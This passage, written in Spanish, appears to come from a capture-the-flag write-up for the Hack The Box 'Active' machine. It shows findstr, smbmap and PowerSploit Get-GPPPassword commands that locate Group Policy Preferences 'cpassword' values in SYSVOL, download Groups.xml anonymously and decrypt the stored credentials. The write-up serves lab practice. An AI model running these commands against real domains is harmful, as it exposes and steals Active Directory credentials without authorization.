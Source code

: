 una forma de buscar esto desde cmd o powershell es:

```bash
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

una vez encontrado esta cadena puede usar **gpp-decrypt** en kali.

o para automatizar todo este proceso la herrameinta Get-GPPPassword de powersploit [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

**otras fuentes de internet**

- [http://www.techiebird.com/Sysvol_structure.html](http://www.techiebird.com/Sysvol_structure.html)
- [https://www.windowstechno.com/what-is-sysvol-folder-in-active-directory/](https://www.windowstechno.com/what-is-sysvol-folder-in-active-directory/)
- [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
- [https://blog.netwrix.com/2017/01/30/sysvol-directory/](https://blog.netwrix.com/2017/01/30/sysvol-directory/)

## EXPLOTACION SEGUNDA PARTE

dicho esto ya sabemos que tenemos que hacer, debemos ver si encontramos en alguna parte la cadena **cpassword** y lo podremos decifrar, lo encontre en la siguiente rurta del recurso compartido:

```bash
smbmap -H 10.10.10.100 -u "" -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/8.png)

ese archivo **Groups.xml** lo debemos descargar en nuestra maquina local para ver su contenido:

```bash
mbmap -H 10.10.10.100 -u "" -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
``` 

al ver el contenido vemos el **cpassword** y a quien le pertenece **userName**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/9.png)
